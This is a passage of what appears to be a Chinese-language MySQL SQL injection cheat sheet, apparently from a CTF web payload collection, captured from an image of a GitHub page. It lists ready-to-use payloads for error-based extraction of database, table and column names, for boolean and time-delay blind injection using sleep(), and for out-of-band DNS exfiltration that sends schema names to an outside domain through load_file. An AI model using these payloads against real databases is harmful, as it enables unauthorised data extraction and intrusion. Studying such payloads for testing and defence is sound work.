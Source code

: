         - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
- 其它函數 (5.7)
    - `select ST_LatFromGeoHash(version());`
    - `select ST_LongFromGeoHash(version());`
    - `select GTID_SUBSET(version(),1);`
    - `select GTID_SUBTRACT(version(),1);`
    - `select ST_PointFromGeoHash(version(),1);`
- 爆庫名、表名、字段名
    - 當過濾`information_schema`等關鍵字時，可以用下面方法爆庫名
        - `select 1,2,3 from users where 1=abc();`
            - `ERROR 1305 (42000): FUNCTION fl4g.abc does not exist`
    - 爆表名
        - `select 1,2,3 from users where Polygon(id);`
        - ``select 1,2,3 from users where linestring(id);``
            - ```ERROR 1367 (22007): Illegal non geometric '`fl4g`.`users`.`id`' value found during parsing```
    - 爆Column
        - `select 1,2,3 from users where (select * from  (select * from users as a join users as b)as c);`
            - `ERROR 1060 (42S21): Duplicate column name 'id'`
        - `select 1,2,3 from users where (select * from  (select * from users as a join users as b using(id))as c);`
            - `ERROR 1060 (42S21): Duplicate column name 'username'`
### Blind
- Conditional
    - `id=87 and length(user())>0`
    - `id=87 and length(user())>100`
    - `id=87 and ascii(mid(user(),1,1))>100` 第一個字元
    - `id=87 or ((select user()) regexp binary '^[a-z]')` 用正規表達式加速
- Conditional Errors
    - `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
- Conditional Time Delays
    - sleep()
        - `SELECT sleep(10)`
    - benchmark()
    - Heavy Query
    - `id=87 and if(length(user())>0, sleep(10), 1)=1`
    - `id=87 and if(length(user())>100, sleep(10), 1)=1`
    - `id=87 and if(ascii(mid(user(),1,1))>100, sleep(10), 1)=1`
    - `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### Out-of-Bnad
- Windows only
- `select load_file(concat("\\\\",schema_name,".dns.kaibro.tw/a")) from information_schema.schemata`
    
### Other Knowledges
- information_schema
    出現在 mysql >= 5.0
    - `select schema_name from information_schema.schemata` 存放資料庫名
    - `select table_name from information_schema.tables` 存放表格名
    - `select column_name from information_schema.columns` 存放欄位名
    